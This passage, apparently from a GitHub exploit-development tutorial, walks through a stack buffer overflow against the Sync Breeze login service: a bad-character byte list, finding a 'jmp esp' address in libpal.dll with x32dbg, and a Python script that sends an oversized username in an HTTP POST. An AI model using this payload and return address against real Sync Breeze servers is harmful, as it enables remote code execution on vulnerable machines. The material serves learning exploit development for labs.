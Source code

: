 ```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

Now that we have our list of bad characters, we need to find a good return address, this will serve to access register ESP, execute our shellcode there and not break the program execution flow. First make sure that the SyncBreeze service is running, close x32dbg and open it again and attach the Sync Breeze service. While in x32dgb, right click on the disassembler > Search for > All user modules > command > Search for "jmp esp". This will search for all symbols in the program or associated to it that use the command "jmp esp" in assembly. Our goal here is to use symbols that have at least none type of protections, so, Windows DLLS are out of escope here (reason we chose "User Modules"). For x32db we can use the "checksec" plugin to search for the security type on the symbols. Running it we can see that all the three DLLs from Sync Breeze have no protection.

![image](https://github.com/Smarttfoxx/syncbreezeentrce/assets/140526026/b619813b-6bc9-428c-827c-4a72f6453985)

Searching for "jmp esp" we can see that "libpal.dll" has it and is also an unsecure dll. The command "jmp esp" on it is located at address 0x100931AF.

![image](https://github.com/Smarttfoxx/syncbreezeentrce/assets/140526026/ce068ea3-e7b3-4d4f-aeb2-7b62cdf240ac)

To test our return address and also how much space we have for our shellcode, we can now edit our Python script and add its address after "A" * 780 instead of "B" * 4, also, we can add "C" * 400 to see how much space available we have. A Shellcode from MSFVenom takes normally 350-370 bytes. Note that the address we found is: 10 09 31 AF, however, since the application is 32-bits, we need to add the address in reverse to python script due to little-endian. It would be: "\xaf\x31\x09\x10" instead of "\x10\x09\x31\xaf".

```
#!/usr/bin/python
import socket

# bad chars = \x00\x0a\x0d\x25\x26\x2b\x3d
# return addres = "\xaf\x31\x09\x10"

bufferOvrCode = "A" * 780 + "\xaf\x31\x09\x10" + "C" * 400

requestLenght = len(bufferOvrCode) + 23

request="POST /login HTTP/1.1\r\n"
request+="Host: 192.168.0.12\r\n"
request+="Content-Length: "+str(requestLenght)+"\r\n"
request+="Cache-Control: max-age=0\r\n"
request+="Upgrade-Insecure-Requests: 1\r\n"
request+="Origin: http://192.168.0.12\r\n"
request+="Content-Type: application/x-www-form-urlencoded\r\n"
request+="User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36\r\n"
request+="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\n"
request+="Referer: http://192.168.0.12/login\r\n"
request+="Accept-Encoding: gzip, deflate, br\r\n"
request+="Accept-Language: en-US,en;q=0.9\r\n"
request+="Connection: close\r\n"
request+="\r\n"
request+="username="+bufferOvrCode+"&password=1234"
```